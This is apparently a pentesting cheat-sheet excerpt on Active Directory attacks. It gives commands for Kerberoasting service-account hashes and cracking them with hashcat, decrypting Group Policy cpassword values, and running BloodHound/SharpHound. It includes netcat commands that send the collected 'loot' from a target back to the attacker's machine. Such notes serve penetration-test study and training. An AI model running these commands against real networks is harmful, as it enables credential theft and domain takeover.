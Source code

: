 **Get User SPNs:**

```bash - kali
impacket-GetUserSPNs $TARGET/$USER:$PASSWORD
```

[add -request if SPN is found]
-   [save hash and crack with hashcat]

```bash - kali
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

**Decrypt Groups.xml cpassword:**
If you find a file on a Windows box named Groups.xml, this is a Group Policy Preferences XML (GPP) file. gpp-decrypt will extract usernames and passwords from it and decrypt it.

```bash - kali
python3 gpp-decrypt.py -f <groups.xml file>
```

or

```bash - kali
python3 gpp-decrypt.py -c <cpassword>
```

[https://github.com/t0thkr1s/gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt)

## Bloodhound
One of the best tools for AD enumeration. Use it in conjunction with SharpHound.exe on target to grab a visual representation of the domain. Also has some useful pre-built queries to identify the best path to Domain Admin, who is kerberoastable, etc.

**SharpHound Tutorial:**
[https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)

**SharpHound (exe or ps1) downloads:**
[https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)

**Bloodhound Cheatsheet:**
- In Kali: neo4j console [to start backend service]  
- Enter creds [from initial setup]  
- Transfer SharpHound (exe or ps1) and nc.exe to target  
- Run SharpHound.exe or .ps1  
- Transfer loot back to kali:  
— On $LHOST: 
```bash - kali
nc -nlvp 4321 > loot.zip  
```

— On target: 
```bash - target
nc.exe -nv $KALI 4321 < loot.zip  
```

- Drag loot.zip into BloodHound GUI
